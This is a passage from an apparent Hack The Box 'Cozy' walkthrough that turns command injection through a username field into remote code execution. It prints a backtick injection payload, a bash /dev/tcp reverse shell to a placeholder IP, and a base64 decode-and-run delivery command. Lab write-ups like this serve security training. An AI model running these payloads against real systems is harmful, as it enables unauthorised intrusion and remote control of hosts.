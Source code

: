 My assumption concerning how data was being read from the username field was spot on, now we just need to find a payload that allows us to escape out of the script being run target-side, to execute commands on the target.

After some testing and online searching, I found a great little guide by [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection) that is great for testing. I found that using the following payload actually works and we get RCE on the target.
```
;``
###payload goes into between the two apostrophes### 
```

![injection success](/assets/images/machines/htb/cozy/inject-works.png)

Now that we have RCE confirmed, all we need to do is upload a reverse shell. I personally think the best way to do this will be to base64 encode a shell and tell the target to decode it and then run it. Should look like this:

```bash
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1 = YmFzaCAtaSA+JiAvZGV2L3RjcC9ZT1VSX0lQL1lPVVJfUE9SVCAwPiYxCg==

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC9ZT1VSX0lQL1lPVVJfUE9SVCAwPiYxCg==' | base64 -d | bash

### The encoded part that you put in the echo cmd will be different
```

We also will need to url encode the payload too. That can be done easily in Burp by just highlighting what you want to encode and then selecting URL encode key characters.

Below is what my payload is:

![inject 2](/assets/images/machines/htb/cozy/almost-there.png)
